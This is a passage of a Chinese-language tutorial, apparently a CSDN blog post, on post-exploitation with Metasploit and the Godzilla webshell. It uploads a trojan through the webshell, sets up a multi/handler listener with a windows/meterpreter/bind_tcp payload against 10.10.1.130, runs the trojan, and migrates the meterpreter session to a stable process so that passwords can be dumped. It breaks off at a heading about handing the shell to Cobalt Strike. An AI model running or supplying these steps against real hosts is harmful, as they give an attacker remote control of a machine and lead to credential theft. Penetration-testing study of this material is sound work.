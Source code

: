 ```
```
打开这个工具，将msfveno生成的123.txt文件里的内容粘贴上去

![在这里插入图片描述](https://img-blog.csdnimg.cn/b27080fcd0574064b300c7017066b565.png)

回到哥斯拉，找一个文件夹上传木马

![在这里插入图片描述](https://img-blog.csdnimg.cn/e8294b3e4a0f4496809e4154a62089b8.png)



回到msf，设置监听模块
```
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set rhost 10.10.1.130
set lport 4444
options
run
```



![在这里插入图片描述](https://img-blog.csdnimg.cn/9c276fc0bc1d4d4e94090d4ae0a11418.png)

终端执行这个木马

![在这里插入图片描述](https://img-blog.csdnimg.cn/162ac2f09e234dd8b068f3a079966221.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/92e8512b7b304ce7afe7e1c1b21f1f9c.png)

成功连接

## 迁移进程
首先需要迁移进程到一个稳定运行的程序里，这样才能正常导出密码

```
ps #查看后台进程
```
随便导入到一个稳定的进程里

![在这里插入图片描述](https://img-blog.csdnimg.cn/ec1466f8be894c20b73e704e4facdbf8.png)

```
migrate 3756
```
查看shell pid号
```
getpid
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/298af1c5068d43119b3d105e90acd8e2.png)

迁移成功
## 转移shell到cs
